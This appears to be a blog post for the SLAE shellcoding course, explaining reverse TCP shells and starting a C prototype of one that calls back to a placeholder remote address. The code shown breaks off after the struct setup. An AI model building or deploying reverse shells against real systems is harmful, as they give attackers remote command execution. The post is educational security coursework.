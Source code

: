 ```yaml
---
layout: post
title: SLAE Assignment 2 -- TCP Reverse Shell
date: 2019-5-7
classes: wide
header:
  teaser: /assets/images/SLAE/SLAE.jpg
tags:
  - SLAE
  - Linux
  - x86
  - Shellcoding
--- 
```

![](/assets/images/SLAE/SLAE.jpg)

## Introduction

The second SLAE assignment is to develop shellcode for a reverse TCP shell. What is a reverse TCP shell? According to [Infosec Institute](https://resources.infosecinstitute.com/icmp-reverse-shell/#gref), a reverse shell is "a type of shell in which the target machine communicates back to the attacking machine. The attacking machine has a listener port on which it receives the connection, which by using, code or command execution is achieved."

After spending so much overhead on the last assignment learning how to format socket programming arguments and how to research them, I found this assignment to be much easier. It also helps that over 90% of the code was reused from the last assignment! ***I am not a professional programmer, I apologize for any socket programming concepts I butchered in my explanations.***

## Prototype

The first thing we want to do, in order to see the syscalls required to support the creation of a reverse shell, is find the simplest implementation of a reverse shell in a language higher than assembly. After a bit of googling, the simplest version of a reverse shell in C that I could find is the [following](https://gist.github.com/0xabe-io/916cf3af33d1c0592a90), with my comments added:

```c
#include <stdio.h>
#include <unistd.h>
#include <netinet/in.h>
#include <sys/types.h>
#include <sys/socket.h>

#define REMOTE_ADDR "XXX.XXX.XXX.XXX"
#define REMOTE_PORT XXX

int main(int argc, char *argv[])
{
    struct sockaddr_in sa;
    int s;
    //creating our struct
```